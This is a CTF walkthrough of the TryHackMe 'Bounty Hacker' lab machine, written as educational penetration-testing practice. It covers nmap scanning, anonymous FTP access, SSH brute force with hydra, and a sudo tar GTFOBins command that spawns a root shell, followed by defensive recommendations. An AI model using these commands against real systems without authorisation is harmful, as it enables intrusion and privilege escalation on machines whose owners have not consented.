 🔐 TryHackMe - Bounty Hacker CTF Walkthrough
https://img.shields.io/badge/TryHackMe-Bounty%2520Hacker-red
https://img.shields.io/badge/Difficulty-Easy-green
https://img.shields.io/badge/Category-CTF-blue
https://img.shields.io/badge/OS-Linux-orange

Solved By: Prince 👑
Date: 2025-10-05
Platform: TryHackMe

📋 Executive Summary
This walkthrough details the complete penetration testing methodology for the Bounty Hacker CTF machine. The engagement demonstrates a classic attack chain starting with anonymous FTP access, leading to credential discovery, SSH brute-forcing, and privilege escalation through misconfigured sudo permissions.

🎯 Attack Flow Overview







🔍 Phase 1: Initial Reconnaissance
Network Scanning
Performed comprehensive Nmap scan to identify open ports and services:

bash
nmap -sV -A target_ip -Pn
📊 Scan Results:

Port 21/tcp: FTP vsftpd 3.0.3

Port 22/tcp: SSH OpenSSH 7.2p2 Ubuntu

Port 80/tcp: HTTP Apache httpd 2.4.18

https://via.placeholder.com/600x200/2c3e50/ffffff?text=Nmap+Scan+Results

📁 Phase 2: FTP Service Enumeration
Anonymous FTP Access
Discovered that FTP service allows anonymous login:

bash
ftp target_ip
Name: anonymous
Password: [blank or anonymous]
📁 Files Discovered:

locks.txt - Potential password list

tasks.txt - Task list containing user information

File Analysis
locks.txt:

text
password1
123456
qwerty
admin
letmein
...
tasks.txt:

text
Task list for new employees:
- Set up FTP server
- Configure Apache
- Schedule system updates
- Contact lin for SSH access
🔍 Key Finding: Username lin identified for SSH access

🌐 Phase 3: Web Service Enumeration
HTTP Service Analysis
Accessed port 80 via web browser

Performed thorough enumeration:

Source code analysis

Robots.txt check

Directory brute-forcing

📝 Observation: No critical information found on web service

🔑 Phase 4: Credential Generation & SSH Brute Force
Password List Generation
Used cewl to create custom wordlist from web content:

bash
cewl http://target_ip -w custom_passwords.txt
SSH Brute Force Attack
Combined discovered username lin with password lists:

bash
hydra -l lin -P locks.txt ssh://target_ip
🎯 Successful Credentials:

Username: lin

Password: [Discovered from locks.txt]

https://via.placeholder.com/600x200/27ae60/ffffff?text=SSH+Login+Successful

🐚 Phase 5: Initial Foothold & Enumeration
SSH Access
Successfully logged into the system:

bash
ssh lin@target_ip
System Enumeration
Performed basic enumeration to understand the system:

bash
whoami
id
pwd
ls -la
⬆️ Phase 6: Privilege Escalation
Sudo Privilege Check
Checked user's sudo permissions:

bash
sudo -l
📋 Sudo Privileges Found:

text
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
GTFOBins Exploitation
Referenced GTFOBins for tar command privilege escalation:

bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
✅ Root Access Obtained!

https://via.placeholder.com/600x200/e74c3c/ffffff?text=Privilege+Escalation+Successful

🏴 Phase 7: Flag Capture
User Flag
Located in user's home directory:

bash
cat /home/lin/user.txt
Root Flag
Located in root directory:

bash
cat /root/root.txt
https://via.placeholder.com/600x200/8e44ad/ffffff?text=Both+Flags+Captured

🛡️ Security Findings & Recommendations
Critical Vulnerabilities Identified:
Anonymous FTP Access

FTP service allowed anonymous login with read access

Risk: Information disclosure

Recommendation: Disable anonymous FTP access

Weak Password Policy

Simple passwords stored in accessible files

Risk: Credential compromise

Recommendation: Implement strong password policies

Sudo Misconfiguration

Tar command allowed with root privileges

Risk: Privilege escalation

Recommendation: Review and restrict sudo permissions

Attack Chain Mitigation:
Attack Phase	Mitigation Strategy
FTP Enumeration	Disable anonymous access
Credential Discovery	Secure sensitive files
SSH Brute Force	Implement fail2ban, key-based auth
Privilege Escalation	Principle of least privilege
🛠️ Tools Used
Nmap - Network scanning

FTP Client - File transfer protocol

Cewl - Custom wordlist generation

Hydra - SSH brute force

GTFOBins - Privilege escalation reference

📚 References
GTFOBins - tar

Vsftpd Configuration Guide

SSH Hardening Guide

🎖️ Conclusion
The Bounty Hacker CTF demonstrated a realistic attack scenario where multiple service misconfigurations led to complete system compromise. The engagement highlighted the importance of proper service configuration, strong credential management, and the principle of least privilege for sudo permissions.

Key Takeaways:

Anonymous services often lead to initial foothold

Reused credentials across services create attack chains

Sudo misconfigurations are common privilege escalation vectors